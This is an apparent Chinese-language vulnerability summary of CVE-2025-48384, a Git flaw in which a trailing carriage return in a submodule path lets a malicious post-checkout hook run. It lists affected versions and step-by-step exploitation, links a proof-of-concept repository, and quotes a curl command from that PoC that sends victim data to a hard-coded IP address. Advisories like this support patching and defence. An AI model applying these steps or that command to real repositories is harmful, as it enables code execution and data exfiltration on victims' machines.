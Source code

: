 ## CVE-2025-48384-Git配置注入/代码执行

**漏洞编号:** CVE-2025-48384

**漏洞类型:** 配置注入/代码执行

**影响应用:** Git

**危害等级:** 高危，可导致远程代码执行

**影响版本:** < 2.43.7, >= 2.44.0-rc0, < 2.44.4, >= 2.45.0-rc0, < 2.45.4, >= 2.46.0-rc0, < 2.46.4, >= 2.47.0-rc0, < 2.47.3, >= 2.48.0-rc0, < 2.48.2, >= 2.49.0-rc0, < 2.49.1, >= 2.50.0-rc0, < 2.50.1

**利用条件:** 需要用户clone包含恶意配置的仓库,并执行含有 post-checkout hook的submodule 初始化

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-48384 漏洞允许攻击者通过在 Git 配置文件中注入恶意代码来执行任意命令。该漏洞源于 Git 在处理配置文件时，没有正确处理尾部的回车符（CR）。攻击者可以利用这一点，在子模块路径中添加尾部回车符，导致 Git 将子模块检出到错误的位置。如果攻击者在该位置放置一个符号链接，指向子模块的钩子目录，并子模块包含一个可执行的 `post-checkout` 钩子，那么在检出后，该钩子脚本就会被执行，从而实现远程代码执行。

**有效性：** 根据漏洞描述和提供的漏洞利用代码（`post-checkout` 脚本），可以判断该 POC 代码有效。脚本尝试从攻击者的服务器下载并执行代码。

**投毒风险：** 提供的 `post-checkout` 脚本本身就是漏洞利用的一部分，目的是执行恶意代码。如果该脚本是从攻击者控制的仓库中获取的，那么它自然会执行攻击者想要执行的操作。因此，从这个角度来说，可以说利用本身具有“投毒”性质。更准确地说，这不是传统的供应链投毒，而是漏洞利用的核心部分。脚本的功能是将受害者机器的信息发送到攻击者的服务器（ `curl http://120.46.135.127:50009?z`），因此本身不包含额外的、隐藏的恶意行为。该脚本本身就是后门，旨在执行任意命令。

**利用方式：**
1.  攻击者创建一个包含恶意配置的 Git 仓库，该配置在子模块路径中包含尾部回车符。
2.  攻击者在恶意仓库中设置一个符号链接，将修改后的子模块路径指向 Git 钩子目录。
3.  攻击者在子模块中包含一个恶意的 `post-checkout` 钩子脚本。
4.  受害者克隆该恶意仓库并执行 `git submodule update --init --recursive` 命令。
5.  Git 将子模块检出到错误的位置，符号链接生效，`post-checkout` 钩子脚本被执行，从而实现远程代码执行。

**风险评估：** 此漏洞风险极高，因为攻击者可以通过诱导用户克隆恶意仓库，在用户机器上执行任意代码。

**项目地址:** [altm4n/cve-2025-48384-hub](https://github.com/altm4n/cve-2025-48384-hub)

**漏洞详情:** [CVE-2025-48384](https://nvd.nist.gov/vuln/detail/CVE-2025-48384)
